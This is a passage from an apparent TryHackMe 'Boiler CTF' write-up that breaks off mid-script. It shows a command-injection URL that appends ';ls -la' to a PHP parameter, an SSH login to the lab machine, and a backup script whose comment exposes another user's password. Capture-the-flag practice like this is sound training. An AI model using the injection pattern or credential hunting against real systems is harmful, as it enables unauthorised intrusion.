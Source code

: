 `http://<ipaddr>/index.php?plot=;<command-here>`

- [http://10.10.57.168/joomla/\_test/index.php?plot=;ls%20-la](http://10.10.57.168/joomla/_test/index.php?plot=;ls%20-la)

`superduperp@$$`

`log.txt`

## Task 2 Questions #2

You can complete this with manual enumeration, but do it as you wish

```
kali@kali:~/CTFs/tryhackme/Boiler CTF$ ssh basterd@10.10.57.168 -p 55007
basterd@10.10.57.168's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
```

1. Where was the other users pass stored(no extension, just the name)?

```
$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
$ /bin/bash
basterd@Vulnerable:~$ cat backup.sh
```

```sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log

DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
```